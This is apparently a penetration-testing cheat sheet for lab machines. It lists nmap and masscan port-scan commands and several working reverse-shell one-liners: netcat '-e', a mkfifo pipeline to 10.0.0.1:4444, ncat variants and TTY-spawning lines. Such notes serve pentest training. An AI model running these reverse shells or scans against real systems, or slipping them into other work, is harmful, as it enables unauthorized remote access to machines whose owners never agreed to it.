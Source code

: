 #   Strategy

*******

## 1) Port scans 
Nmap short, quick, SYN scan —

nmap -sCSV ipaddress -oA synscan

Nmap full, TCP SYN/ACK, relatively slow scan —

nmap -sTV -p- -Pn ipaddress -oA fulltcp

Using masscan, you can scan all TCP and UDP ports in roughly 2-3 minutes.

masscan -p1-65535,U:1-65535 10.10.10.x --rate=1000 -e tun0

-p1-65535,U:1-65535 tells masscan to scan all TCP/UDP ports
--rate=1000 scan rate = 1000 packets per second
-e tun0 tells masscan to listen on the VPN network interface for responses

Once you have a list of valid ports from masscan, you can feed them to nmap for service enumeration. For example, if masscan finds ports 80, 443 and 3306 open, the nmap command would be:

nmap -sV -p80,443,3306 10.10.10.x

******

## 2) Reverse Shell 

[Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/reverse-shell.html)

[Spawning TTY Shell](https://netsec.ws/?p=337)


- Netcat Listeners

Netcat Traditional

``` nc -e /bin/sh [IPADDR] [PORT] ```

``` nc.traditional -e /bin/bash 10.0.0.1 4444 ```

Netcat OpenBsd

``` rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f ```

Ncat

``` ncat 127.0.0.1 4444 -e /bin/bash ```

``` ncat --udp 127.0.0.1 4444 -e /bin/bash ```


- Shell Spawning

    ```python -c 'import pty; pty.spawn("/bin/sh")'```
    

   ``` echo os.system('/bin/bash')```
   

   ``` /bin/sh -i ```
   

```